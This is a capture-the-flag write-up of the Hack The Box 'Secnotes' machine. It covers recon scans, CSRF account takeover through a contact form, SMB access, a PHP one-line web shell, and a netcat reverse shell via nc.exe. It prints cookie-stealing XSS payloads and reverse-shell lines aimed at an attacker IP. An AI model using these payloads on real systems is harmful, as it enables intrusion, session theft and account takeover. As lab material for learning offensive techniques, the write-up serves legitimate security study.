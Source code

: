 # Secnotes Hack The Box Tips

# ${\color{purple}Initial Recon}\ $

``nmap -sC -sV -oA secnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884008-60c410d5-2f11-4ba0-9ca0-4e923373cffc.png)

``nmap -p- -sV -oA fullsecnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884018-91569f20-cedb-46b9-9601-867252fa1fb7.png)

``nmap -p 8808 10.10.10.97 -sC -sV``

![image](https://user-images.githubusercontent.com/123066149/222884064-c39d198f-5031-4133-b41a-ef1cdf261e42.png)

``wfuzz -c -w /opt/seclists/Usernames/Names/names.txt -d"username=FUZZ&password=azeazeazeaze" --hs "No account found with that username." http://10.10.10.97/login.php``

``gobuster dir -u http://10.10.10.97/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,asp,a
spx,txt``

![image](https://user-images.githubusercontent.com/123066149/222884045-90de364f-d65c-40aa-803e-7cef2ac312ef.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/222884398-3d10dbcb-9038-4dc5-88a3-5a2f0386419e.png)

![image](https://user-images.githubusercontent.com/123066149/222884441-4976e0f1-db29-46d6-a53d-79efe6cbf118.png)

![image](https://user-images.githubusercontent.com/123066149/222884462-7bd86f37-7fc8-4a1e-9c5f-f3048c40eb2e.png)

![image](https://user-images.githubusercontent.com/123066149/222884505-b9b91d4c-2550-41d4-8777-40bfc4c59c08.png)

### After registering an account and gaining access to the web application, additional functionality to

### Create notes, change password and a contact form are available. The user "tyler" is referenced.

![image](https://user-images.githubusercontent.com/123066149/222885036-d2586f9f-8521-41c2-8284-60592b21eaa6.png)

![image](https://user-images.githubusercontent.com/123066149/222885060-cdfe8f36-f9ad-4354-b31f-9a3b648ebf32.png)

![image](https://user-images.githubusercontent.com/123066149/222885186-d35f0e8f-99ea-4de2-9793-959ec4bdd345.png)

``azeazeaz<h1>MONKMODE</h1>zeeaze``

``<img src=http://10.10.16.2:800/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.2'$IFS'2222')>``

``<script> window.open(‘http://10.10.16.2:800/xss.php?a=’+document.cookie) </script>``

``<script> window.open(‘http://votresite.com/xss.php?a=’+document.cookie) </script>``

``<img src=http://10.10.16.2:800/?cookie='+document.cookie)>``

![ssrf](https://user-images.githubusercontent.com/123066149/222884580-628295fc-cbd2-4641-bada-5f93810077c1.PNG)

``<img src=(http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit)>``

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``

### Weak Password Change Mechanism

### A common issue with password change mechanisms is a failure to validate that the user knows
### the existing password. Password recovery mechanisms also allow users to change their
### password without knowing the existing password, but may require an additional verification step,
### such as sending the reset request to the email address associated with the username. If a
### malicious user gets a victim to click on a malicious password change request, and validation of
### the existing password is not required, then they may be able to take control of the account.

![requet](https://user-images.githubusercontent.com/123066149/222884690-fc91298e-7252-4aa9-a2f3-8fef8ac1cf10.PNG)

``http://10.10.16.2:50/tryfortest.txt``                                     
                                        
![image](https://user-images.githubusercontent.com/123066149/222884761-67e09b9e-ee7f-4044-bb1c-2eb4799a02c3.png)
 
``nc -nvlp 50``

### Cross-Site Request Forgery (CSRF)

### The "Contact Us" form is directed to tyler, and if a malicious password reset request is sent to this
### user, they might click the link. CSRF tokens would defend against this attack, but they haven’t
### been implemented in the web application. In Burp, the "Change Password" request type is
### changed from POST to GET, and the malicious URL is constructed.

![3](https://user-images.githubusercontent.com/123066149/222884822-c8321bea-a8d3-41e0-9197-9e47b8e207d0.PNG)

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``    

### The URL is pasted into the message body of the Contact request, and after a short while the
### credentials tyler:testtest can be used to log into the website.

![4](https://user-images.githubusercontent.com/123066149/222884881-42e06240-3c2a-4363-a374-c092f925050b.PNG)

### Once logged in, credentials to access a SMB share are found.
 
![image](https://user-images.githubusercontent.com/123066149/222884939-5aca6d35-a3a1-44d2-be32-765eb2e3c451.png)                                       
                                        
# ${{\color{purple}Exploitation}}\ $
 
``smbclient -U 'tyler' //10.10.10.97/new-site``                                      
                                        
![image](https://user-images.githubusercontent.com/123066149/222890282-4e9f5ae1-159c-47cc-a0e1-7b94954f5a50.png)
  
### I used this web shell which worked :

![image](https://user-images.githubusercontent.com/123066149/222894266-38576b90-22a8-4f6d-b431-8193a765b3b0.png)

### This webshell could also work

``<?php echo shell_exec($_GET["c"]); ?>``  

### Upgrade Webshell to Reverse Shell

![image](https://user-images.githubusercontent.com/123066149/222890258-a516a07a-8ed6-4541-ad06-7f976eb74288.png)

![image](https://user-images.githubusercontent.com/123066149/222890342-17ee1e4c-bf9b-4796-9ea5-4256f7e1ead0.png)

``http://10.10.10.97:8808/php_cmd.php?cmd=nc.exe%2010.10.16.2%201234%20-e%20cmd.exe``
                    
![image](https://user-images.githubusercontent.com/123066149/222890381-e2f09cd0-4d2b-4535-bf1c-8c565d380b14.png)
                   
# ${{\color{purple}Privilege Escalation}}\ $

### Enumeration of the C:\ reveals the file "Ubuntu.zip" and a "Distros\Ubuntu" folder. Potentially
### Windows Subsystem for Linux (WSL) has been installed?

![image](https://user-images.githubusercontent.com/123066149/222890424-70d67952-7335-4f72-bb1e-c7449659e818.png)
 
### The Linux filesystem is enumerated.

``ls C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs``

![image](https://user-images.githubusercontent.com/123066149/222891298-07eeb349-09d1-495e-b025-1408516d3f6b.png)                   

# ${{\color{purple}Points of Improvement}}\ $

* There was another way to gain access to the share :

![image](https://user-images.githubusercontent.com/123066149/222894535-75d500df-752d-4782-b081-e575bdf5f6fa.png)

![image](https://user-images.githubusercontent.com/123066149/222894541-e612b38d-cb8a-4601-adff-8baefa71a814.png)

![image](https://user-images.githubusercontent.com/123066149/222894553-0c90f351-5a39-4114-8b27-e89149e7a14f.png)


